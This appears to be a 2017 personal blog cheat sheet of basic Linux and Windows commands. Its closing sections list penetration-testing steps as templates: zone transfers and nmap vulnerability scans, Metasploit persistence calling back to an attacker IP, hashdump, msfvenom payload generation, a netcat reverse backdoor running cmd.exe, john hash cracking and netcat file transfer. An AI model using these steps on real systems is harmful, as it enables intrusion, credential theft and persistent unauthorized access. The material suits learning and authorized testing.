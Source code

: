 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
<strong>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
</strong>
		<ul>
		<li>(print current user id and name)</li>	
		</ul>
<strong>
	<li><code>root@kl~# date </code></li> 
	<li><code>C:\>  chdir </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
<strong>
	<li><code>root@kl~# pwd </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
<strong>
	<li><code>root@kl~# jobs </code></li>
</strong>
		<ul>
		<li>(list cronjobs)</li>
		</ul>
<strong>
	<li><code>root@kl~# kill </code></li>
</strong>
		<ul>
		<li>(stop processes)</li>
		</ul>
<strong>
	<li><code>root@kl~# pkill </code></li>
</strong>
		<ul>
		<li>(stop processes)</li>
		</ul>
<strong>	
	<li><code> root@kl~# ps –aef </code></li>
</strong>
		<ul>
			<li>(list processes status)</li>
		</ul>
<strong>
	<li><code>C:\ tasklist </code></li>
</strong>
</ul>

<h2>Files</h2>
<ul>
	<li><code>root@kl~# cp <src> <dst> </code></li>
	<ul>		
		<li>(copy)</li>
	</ul>
	<li><code>C:\> copy <src> <dst> </code></li>
	<li><code>root@kl~# clear </code></li>
	<li><code>C:\> cls </code></li>
	<li><code>C:\> dir </code></li>
	<li><code>root@kl~# echo <message> </code></li>
		<ul>
			<li>(print to screen)</li>
		</ul>		
	<li><code>root@kl~# find –iname <file> </code></li>
	<li><code>C:\> findstr /i /s <string> *.txt </code></li>
		<ul>
			<li>(like grep for Windows)</li>
		</ul>
	<li><code>root@kl~# file </code></li>
		<ul>
			<li>(determine file type)</li>
		</ul>
	<li><code>C:\> dir \ <file> /b /s </code></li>
	<li><code>root@kl~# grep </code></li>
		<ul>
			<li>(search files for matching text)</li>
		</ul>
	<li><code>root@kl~# gzip </code></li>
		<ul>
			<li>(compress or decompress files)</li>
		</ul>
	<li><code>root@kl~# less </code></li>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>	
	<li><code>root@kl~# locate </code></li>
	<li><code>root@kl~# ls </code></li>
	<li><code>root@kl~# mkdir </code></li>
		<ul>
			<li>(new directory)</li>
		</ul>	
	<li><code>root@kl~# mv <src><dst> </code></li>
		<ul>
			<li>(move/rename a file)</li>
		</ul>
	<li><code>C:\>  move <src> <dst> </code></li>
	<li><code>root@kl~# rm </code></li> 
		<ul>
			<li>(remove files)</li>
		</ul>	
	<li><code>C:\> ren </code></li>
		<ul>
			<li>(renames file)</li>
		</ul>		
	<li><code>root@kl~# umask </code></li>
		<ul>
			<li>(users file creation mask)</li>
		</ul>	
	<li><code>root@kl~# uniq </code></li>
		<ul>
			<li>(uniquify files)</li>
		</ul>	
	<li><code>root@kl~# vi/vim </code></li>
		<ul>
			<li>(the best text editor)</li>
		</ul>	
	<li><code>root@kl~# wc </code></li>
		<ul>
			<li>(print byte, word and line counts)</li>
		</ul>	
	<li><code>root@kl~# whereis </code></li>
		<ul>
			<li>(search $path, man pages and source files for program)</li>
		</ul>	


<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
